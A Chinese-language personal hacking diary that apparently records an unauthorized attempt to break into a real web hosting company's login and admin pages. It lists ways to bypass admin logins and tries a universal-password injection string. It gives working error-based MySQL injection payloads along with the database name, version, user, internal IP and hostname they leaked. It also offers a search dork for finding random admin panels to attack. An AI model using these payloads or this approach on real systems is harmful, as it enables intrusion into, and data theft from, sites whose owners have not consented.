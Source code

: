 # 20180526-20180527
这两天参加了SUCTF，所以部分东西不是有太大关联性。
## 第一个站
半夜聊天水群，CTF有大不动，被大佬拉着日站，并且自己实战确实很垃圾。

[第一个站](www.now.cn)

[登陆界面](https://www.now.cn/user/login.php?&loginErrMsg=user-illegal&returnpage=)

试了
 > admin'or''='

这样能百度到的弱口令。
大佬说这个能拿下。
自己一开始的思路就是找到登陆界面尝试admin登陆（自然的用到弱口令，因为自己只会弱口令）

##### 那么这里提个问：如果遇到登陆界面你会怎么做？有多少种方法能用管理员账号登陆？
- 最简单的最不容易的，知道管理员账号密码
- 最简单粗暴的，爆破
- 百度到的弱口令
- 通过注册界面得到真实的用户名，然后在进行登陆（乌云
- 通过源码文件泄露，得到登陆的方法（乌云
- 通过敏感目录的泄露，得到管理员的信息（乌云
- 重置密码（[乌云](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0218005)比较有趣，当然不止这一个案例，可以去搜重置密码
- SQL注入（乌云
- 备份文件泄露跟源码文件泄露一个道理
- cookies欺骗（[乌云](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0215297)
- github泄露信息（乌云
- weblogic命令执行获得数据库（[乌云](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0213542)
- xss打到cookies（[乌云](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0209419) [xss](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0212216)对于打开cookies这个操作不会
- 

如果用admin来登陆并且验证码输入正确，密码是瞎打的情况下，URL会出现这种情况：
> https://www.now.cn/user/login.php?&loginErrMsg=user-password-error&returnpage=/user/panel.php?&UserName=admin

很明显，user-password-error，密码错了，而他指向的页面是panel.php
输入test用户名，也是同样的做法得到的：
> https://www.now.cn/user/login.php?&loginErrMsg=user-password-error&returnpage=/user/panel.php?&UserName=test

那我尝试更改，url信息
> https://www.now.cn/user/login.php?&loginErrMsg=user-legal&returnpage=admin.php

![](image/1.png)

然后无果就去看乌云涨涨姿势。

想想之前，还有子域名可以用。
于是打开[子域名工具](https://phpinfo.me/domain/)
发现一个站点:
> http://admin.now.cn

![](image/2.png)

域名就用(now.cn)，密码随便输，然后显示
![](image/3.png)

谷歌到scp3是抗体的意思，应该是应对那些非法访问者的。
有趣。
明天在搞，发现登陆后台的方法好多，现在了解的就有10多个。

第二天，大佬问我日的怎么样，我尴尬一笑

- 弱口令有可能，但是不可能
- xss 我是在没有其他突破点的时候才用 而且xss效果不太好
- 爆破对这种站也不太可能
- 最后一句话，挖注入

自己注册个账户，然后域名管理 关键字框 注入 禁 = 
大佬发来一些代码
```
闭合
1%'||2>1#
1%')||2>1#（闭合成功）

database()
//, -- , /**/, #, --+, -- -, ;,%00,--a 1%') and extractvalue(rand(),concat(0x3a,database()));
#database()=db_now_net_cn

version()
1%') and extractvalue(rand(),concat(0x3a,version())); 
#version()=5.1.65-log

user()
1%') and extractvalue(rand(),concat(0x3a,user())); 
#user()=nownetcn@10.0.61.137

@@version_compile_os
1%') and extractvalue(rand(),concat(0x3a,@@version_compile_os)); 
#@@version_compile_os=unknown-linux-gnu

@@datadir
1%') and extractvalue(rand(),concat(0x3a,@@datadir)); 
#@@datadir=/mysql/data/

@@hostname
1%') and extractvalue(rand(),concat(0x3a,@@hostname)); 
#@@hostname=mainsite-DB
```
经历了近一个小时的干瞪眼，大佬问我做的怎么样，我却说自己干瞪眼了半天
```
1%') and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables where TABLE_SCHEMA like database() limit 0,1))); 
```

然后大佬也没有绕过去。难道我是小白鼠？

不管那么多了，今晚先日日试试，并且那个“%'”很麻瓜。继续看乌云，多学点姿势才是。

谷歌
```
intitle 后台登陆
```
随便捡一些站，首先先一个个试百度的万能密码，万能密码都玩烂了，貌似没什么创意（逃，另外就是，这种后台登陆的站点放在外网能访问到的地方，可以这么假设这个站点管理员安全意识并不高，或者这个站点对这个管理员没有太大的重要性，或许只是一个介绍的网站（逃。

sqlmap还有POST注入，表示对这个注入方式没遇到过。
[POST登陆框注入实战](https://blog.csdn.net/u011781521/article/details/58594941)

看了这篇了解了。感觉自己有些东西真的需要看视频。
打好基础，然后日破天

HTTP认证框架
```
RFC 7235 定义了一个 HTTP 身份验证框架，服务器可以用来针对客户端的请求发送 challenge （质询信息），客户端则可以用来提供身份验证凭证。质询与应答的工作流程如下：服务器端向客户端返回 401（Unauthorized，未被授权的） 状态码，并在  [WWW-Authenticate](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/WWW-Authenticate) 首部提供如何进行验证的信息，其中至少包含有一种质询方式。之后有意向证明自己身份的客户端可以在新的请求中添加 Authorization 首部字段进行验证，字段值为身份验证凭证信息。通常客户端会弹出一个密码框让用户填写，然后发送包含有恰当的 Authorization  首部的请求。
```
是该搞个XSS平台了，自己一点东西都没有玩毛线XSS
明天计划搭建一个

爆破还可以之爆破用户名，密码可以不一样。

有的时候注册是个很好的动作。[乌云](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0171339)